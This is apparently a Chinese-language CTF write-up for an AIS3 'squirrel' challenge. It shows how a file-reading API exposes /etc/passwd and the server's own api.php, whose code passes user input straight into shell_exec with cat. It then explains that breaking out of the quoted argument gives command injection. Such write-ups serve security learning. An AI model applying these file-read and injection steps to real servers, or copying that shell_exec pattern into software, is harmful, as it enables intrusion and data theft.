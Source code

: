 https://squirrel.ais3.org/

![](https://i.imgur.com/iSrbJMn.jpg)

一點開就看到了一堆不知道在衝三小的松鼠...

檢視原始碼看到，重點是有一個api可以把/etc/passwd 給印出來
```javascript
const squirrelFile = '/etc/passwd';

    fetch('api.php?get=' + encodeURIComponent(squirrelFile))
      .then(res => res.json())
      .then(data => {
        if ('error' in data) {
          throw data.error;
        }
        data.output.split('\n')
          .map(line => line.split(':')[0].trim())
          .filter(name => name.length)
          .forEach(name => new Squirrel(name).update());
      })
      .catch(err => {
        console.log(err);
        alert('Something went wrong! Please report this to the author!');
      });

```

這樣代表可以LFI，但是對於通靈猜出flag還是有一定的難度。

想到說可以猜猜看這個api的程式碼長什麼樣子，可以透過什麼方法讀檔

所以直接訪問
`https://squirrel.ais3.org/api.php?get=/var/www/html/api.php`

回傳ㄌ這個
```json
{
    "output": "<?php\n\nheader('Content-Type: application/json');\n\nif ($file = @$_GET['get']) {\n    $output = shell_exec(\"cat '$file'\");\n    \n    if ($output !== null) {\n        echo json_encode([\n            'output' => $output\n        ]);\n    } else {\n        echo json_encode([\n            'error' => 'cannot get file'\n        ]);\n    }\n} else {\n    echo json_encode([\n        'error' => 'empty file path'\n    ]);\n}\n"
}
```

也就是說，直接透過shell_exec 搭配cat的方法，這樣的話，只要跳脫cat就能做command injection


![](https://i.imgur.com/8oeFABb.png)

![](https://i.imgur.com/kmry2VH.png)


### 🦈Shark
Let's dive deep again this year.
